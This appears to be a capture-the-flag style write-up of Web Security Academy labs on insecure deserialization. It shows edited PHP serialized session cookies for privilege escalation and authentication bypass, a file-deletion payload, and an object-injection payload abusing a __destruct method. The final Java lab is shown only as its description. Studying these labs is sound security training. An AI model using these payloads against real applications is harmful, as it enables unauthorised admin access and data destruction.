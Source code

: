 ## Lab - 1: Modifying serialized objects (A)

- This lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a result. To solve the lab, edit the serialized object in the session cookie to exploit this vulnerability and gain administrative privileges. Then, delete Carlos's account. You can log in to your own account using the following credentials: wiener:peter

- enter with the user `wiener` and at my-account page

```
GET /my-account HTTP/1.1
Host: 0af2008803bc0d5cc0878b8500100022.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
...
```

- we are interested in the `Cookie: session` and if select that value ('Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d') in Burp (after decoding from URL and base64), the following result will be seen.

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:5:"admin";b:0;}
```

- send it to Repeater and change the `b:0` to `b:1`

- then send request to `/admin` and found an admin interface

```
GET /admin/delete?username=carlos HTTP/1.1
Host: 0af2008803bc0d5cc0878b8500100022.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjoxO30%3d
...
```

---

## Lab - 2: Modifying serialized data types (P)

- This lab uses a serialization-based session mechanism and is vulnerable to authentication bypass as a result. To solve the lab, edit the serialized object in the session cookie to access the administrator account. Then, delete Carlos. You can log in to your own account using the following credentials: wiener:peter

- login with wiener
- session cookie is as follow:

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJkY3FvNWVqcHo2dHR3aWEzcDlka3AwbGR5bm13YjhpdyI7fQ%3d%3d
```

- after encoding

```
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"dcqo5ejpz6ttwia3p9dkp0ldynmwb8iw";}
```

- if try to access `/admin` panel -> 401 response

- change the session cookie as follow:

```
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

- the encoded version as follow

```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
```

- now we can access as administrator

---

## Lab - 3: Using application functionality to exploit insecure deserialization (P)

- This lab uses a serialization-based session mechanism. A certain feature invokes a dangerous method on data provided in a serialized object. To solve the lab, edit the serialized object in the session cookie and use it to delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials: wiener:peter ;You also have access to a backup account: gregg:rosebud

- login with `wiener` account and Delete the account
- grep the POST request of delete

```
POST /my-account/delete HTTP/1.1
Host: 0a81005a0389f349c00ec163003900e5.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ3NTFpdjI4YmZlcnFqb3hqNmw5d2tjMzZ5em13dXNuYyI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30%3d
```

- after decoding the session cookie:

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"w51iv28bferqjoxj6l9wkc36yzmwusnc";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

- changing the cookie into

```
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"w51iv28bferqjoxj6l9wkc36yzmwusnc";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
```

- then decode and send this request

---

## Lab - 4: Arbitrary object injection in PHP (P)

- This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the morale.txt file from Carlos's home directory. You will need to obtain source code access to solve this lab. You can log in to your own account using the following credentials: wiener:peter

- login with `wiener`
- in Burp sitemap, there is a file at `/libs/CustomTemplate.php`
- GET request to this file appending `~` to read the source code, like this

```
GET /libs/CustomTemplate.php~ HTTP/1.1
Host: 0a9f00900498ae1cc14c3e3a00b40062.web-security-academy.net
```

- in response, find a magic function `__destruct()`

```php
<?php
class CustomTemplate {
    ...
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
?>
```

- send a request containing the session cookie to Burp Repeater
- replace the session cookie with the following

```
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

---

## Lab - 5: Exploiting Java deserialization with Apache Commons (P)

- This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains. To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory. You can log in to your own account using the following credentials: wiener:peter
